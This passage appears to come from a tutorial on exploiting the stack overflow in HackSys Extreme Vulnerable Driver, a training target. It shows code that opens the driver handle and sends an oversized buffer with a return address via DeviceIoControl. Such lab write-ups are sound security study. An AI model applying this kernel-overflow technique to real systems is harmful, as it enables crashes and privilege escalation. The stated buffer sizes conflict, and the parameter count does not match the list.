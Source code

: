 ```bash
    driverHandle = CreateFileA(
        DRIVER_PATH,
        GENERIC_READ | GENERIC_WRITE,
        0,
        NULL,
        OPEN_EXISTING,
        FILE_ATTRIBUTE_NORMAL | FILE_FLAG_OVERLAPPED,
        NULL
    );
```

After getting the handle of the driver we need to communicate with him by his I/O function, DevideIoControl. Now we can use the handle to call DeviceIoControl and get a crash by sending a large buffer.


```bash
    /*
        BOOL WINAPI DeviceIoControl(
          _In_        HANDLE       hDevice,
          _In_        DWORD        dwIoControlCode,
          _In_opt_    LPVOID       lpInBuffer,
          _In_        DWORD        nInBufferSize,
          _Out_opt_   LPVOID       lpOutBuffer,
          _In_        DWORD        nOutBufferSize,
          _Out_opt_   LPDWORD      lpBytesReturned,
          _Inout_opt_ LPOVERLAPPED lpOverlapped
        );
    */


    BOOL bof = DeviceIoControl(
        driverHandle,                       /* handler for open driver */
        STACK_IOCTL,                        /* IOCTL for the stack overflow */
        lpInBuffer,                          /* our user buffer with retAddr */
        RET_OFFSET + sizeof(DWORD),          /* want up to the offset + 4 (for the retAddr) sent */
        NULL,                               /* no buffer for the driver to write back to */
        0,                                  /* above buffer of size 0 */
        NULL,                               /* dump variable for byte returned */
        NULL);                              /* ignore overlap */
```

We must stop here to look closer this function because is the most important part of the exploit. A user-supplied buffer is being copied to a kernel buffer without boundary check, resulting in a stack smashing vulnerability if the buffer is longer than 2048 bytes.

You can see the vulnerable source code in [this](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver/blob/master/Driver/HEVD/Windows/BufferOverflowStack.c#L107) line  

As you can see there are three critical parameters:
- driverHandle: this will get the handle returned from CreateFileA.
- STACK IOCTL: the I/O code which leads us to the vulnerable function that will trigger the stack overflow.
- lpInBuffer: user buffer with retAddr
- RET_OFFSET + sizeof(DWORD): to trigger the vulnerability we need our buffer longer than 2080
